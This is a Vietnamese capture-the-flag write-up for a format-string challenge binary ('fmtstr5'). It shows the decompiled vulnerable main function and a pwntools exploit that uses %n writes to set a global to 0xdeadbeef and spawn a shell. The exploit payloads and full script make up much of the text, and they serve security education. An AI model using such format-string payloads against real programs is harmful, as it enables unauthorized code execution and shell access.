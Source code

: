**1. Tìm lỗi**

Dùng lệnh ```file``` kiểm tra:

```
fmtstr5: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=df42b94f443d448c45da82770977f227d783cf07, for GNU/Linux 3.2.0, not stripped
```

---> Mở bằng IDA64 ta có:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[88]; // [rsp+0h] [rbp-60h] BYREF
  unsigned __int64 v5; // [rsp+58h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  init(argc, argv, envp);
  memset(s, 0, 0x50uLL);
  printf("Your format string: ");
  fgets(s, 80, stdin);
  printf(s);
  if ( check )
    puts("Yeah that's right, keep going!");
  if ( check == 0xdeadbeef )
  {
    puts("Congrats! Here is your prize!");
    system("/bin/sh");
  }
  if ( !check )
    puts("Let's try again!");
  return 0;
}
```

- Khởi tạo giá trị của biến v5 bằng cách đọc giá trị của thanh ghi fs tại offset 0x28.
- Gọi hàm init với các tham số argc, argv và envp.
- Sử dụng hàm memset để thiết lập tất cả các byte trong mảng s thành giá trị 0.
- Sử dụng hàm printf để in ra chuỗi "Your format string: ".
- Sử dụng hàm fgets để đọc chuỗi vào biến s.
- Sử dụng hàm printf để in ra nội dung của chuỗi s. Ở đây có lỗi format string
- Kiểm tra giá trị của biến check. Nếu check không bằng 0, in ra chuỗi "Yeah that's right, keep going!".
- Kiểm tra giá trị của biến check. Nếu check bằng 0xdeadbeef, in ra chuỗi "Congrats! Here is your prize!" và thực thi lệnh hệ thống "/bin/sh".
Kiểm tra giá trị của biến check. Nếu check bằng 0, in ra chuỗi "Let's try again!".
- Trả về giá trị 0 từ hàm main.

**2. Ý tưởng**

Sử dụng %n để ghi 0xdeadbeef byte vào địa chỉ của biến check trên stack

**3. Khai thác**

```
pwndbg> p &check
$1 = (<data variable, no debug info> *) 0x404090 <check>
```

Ta có địa chỉ biến check là ```0x404090```.

Đặt breakpoint trước lệnh ```printf``` xem có địa chỉ check trên stack không.

![check.png](photo/check.png)

Không tìm thấy được địa chỉ biến check trên stack nên đưa nó lên bằng cách nhập vào chuỗi s. Sau đó kiểm tra thử:

![check1.png](photo/check1.png)

Như vậy biến check đã được đưa lên stack. Tiếp theo sẽ in 0xdeadbeef byte trước biến check và sử dụng %n để đưa đúng số byte cần thiết cho biến check. Chọn dư dả 0x40 byte để lưu chuỗi trước đó. Mà 0x40 ở vị trí 9 trên stack tức nhập ```%14$n``` sẽ ghi dữ liệu vào check được. Kiểm tra thử:

```
payload = f'%{0xdeadbeef}c%14$n'.encode()
payload = payload.ljust(0x40, b'a')
payload += p64(check)
```

![check1.png](photo/check1.png)

Chương trình đã bị lỗi có vẻ do byte quá to nên sẽ nhập trước 2 byte 0xbeef ở địa chỉ check. Sau đó nhập 0xdead - 0xbeef byte ở địa chỉ check + 2.

```
payload = f'%{0xbeef}c%14$n'.encode()
payload += f'%{0xdead - 0xbeef}c%15$n'.encode()
payload = payload.ljust(0x40, b'a')
payload += p64(check)
payload += p64(check + 2)
```

Ta có script như sau:

```
from pwn import *

exe = ELF('fmtstr5', checksec = False)
r = process(exe.path)

check = 0x404090

payload = f'%{0xbeef}c%14$n'.encode()
payload += f'%{0xdead - 0xbeef}c%15$n'.encode()
payload = payload.ljust(0x40, b'a')
payload += p64(check)
payload += p64(check + 2)
#input()
r.sendlineafter(b'string: ', payload)
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)
